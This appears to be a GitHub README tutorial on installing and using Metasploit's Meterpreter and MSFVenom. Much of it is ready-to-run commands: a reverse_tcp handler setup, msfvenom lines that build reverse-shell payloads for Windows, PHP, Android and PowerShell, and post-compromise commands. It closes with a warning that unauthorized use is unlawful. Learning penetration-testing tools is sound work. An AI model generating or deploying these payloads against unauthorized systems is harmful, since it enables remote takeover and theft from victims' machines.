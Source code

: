 # meterpreter-experience

## Meterpreter

### Introduction

Meterpreter is a powerful tool that comes with the Metasploit Framework. It is used for gaining remote access to systems and executing various tasks on a compromised computer. This document will provide you with information on the installation and usage of Meterpreter.

### Installation

To use Meterpreter, you need to have the Metasploit Framework installed on your system. The installation of Metasploit may vary depending on your operating system.

#### Linux

```bash
sudo apt-get update
sudo apt-get install metasploit-framework
```

#### macOS

```bash
brew install metasploit
```

#### Windows

Download the installer from the official Metasploit website: [Metasploit Download](https://www.metasploit.com/download)

### Using Meterpreter

#### Launching Meterpreter

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your_ip_address
set LPORT your_port
exploit
```

#### Basic Meterpreter Commands

1. **`help`**: Display a list of available commands.
2. **`sysinfo`**: Display information about the operating system and hardware.
3. **`shell`**: Open a command prompt on the operating system.
4. **`upload`**: Upload a file to the remote computer.
5. **`download`**: Download a file from the remote computer.

More commands and functions can be found in the [official Meterpreter documentation](https://www.metasploitunleashed.com/meterpreter-basics/).

## MSFVenom

### Introduction

MSFVenom is a tool within the Metasploit Framework used for creating custom malicious files. You can generate various types of files, including executables, scripts, exploits, and more. This document will provide you with information on the installation and usage of MSFVenom.

### Installation

MSFVenom is installed along with the Metasploit Framework. Make sure you have Metasploit installed on your system, as indicated in the previous section.

### Using MSFVenom
- For reference use the following command
```bash
msfvenom -help
```
#### Generate Shellcode for Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -f exe > payload.exe
```

#### Generate Shellcode for PHP

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -f raw > payload.php
```

#### Generate Shellcode for Android

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -o payload.apk
```

#### Generate Shellcode for PowerShell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -f psh -o payload.ps1
```

More parameters and options can be found in the [official MSFVenom documentation](https://www.metasploitunleashed.com/msfvenom/).

## Security Considerations

It's essential to remember that using Meterpreter and MSFVenom for unauthorized access to systems or networks is unlawful and can lead to legal consequences. All actions should only be performed with proper authorization.

Explore official Metasploit materials thoroughly and ensure proper authorization before any scanning or attacks.

Useful resources:
- [Metasploit Unleashed](https://www.metasploitunleashed.com/)
- [Official Metasploit Documentation](https://metasploit.help.rapid7.com/docs/metasploit-framework)
- [Official MSFVenom Documentation](https://www.metasploitunleashed.com/msfvenom/)

## License

This documentation is licensed by the [license](https://github.com/jj975/meterpreter-experience/blob/main/LICENSE).
